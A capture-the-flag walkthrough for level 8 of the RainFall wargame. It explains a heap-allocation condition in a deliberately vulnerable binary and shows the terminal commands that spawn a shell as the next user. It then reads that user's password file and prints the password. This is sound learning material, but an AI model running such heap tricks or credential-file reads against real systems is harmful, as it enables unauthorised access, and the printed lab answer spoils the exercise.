 # Walkthrough for Level 8

## Understanding the Binary

This binary runs a loop that reads user input and responds to four commands: `auth`, `reset`, `service`, and `login`.
There are two global variables: `auth` and `service`, both of which are pointers to `char`. When you use the `auth` or
`service` command, memory is allocated on the heap, filled with a string, and the pointer is stored in the respective
global variable. The condition to execute the shell is that `(auth + 0x20) != 0`.

## Triggering a shell

The trick is to keep allocating memory using the `service` command until the address `auth + 0x20` is no longer `NULL` 
and the shell is triggered. As a hint, the program prints the values of the addresses stored in the `auth` and `service`
global variables in each round.

``` shell
level8@RainFall:~$ ./level8
(nil), (nil)
auth 
0x804a008, (nil)
service
0x804a008, 0x804a018
service
0x804a008, 0x804a028
login
$ whoami
level9
```

## Reading the password

```shell
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

We can now log in via SSH using the `level9` user's password.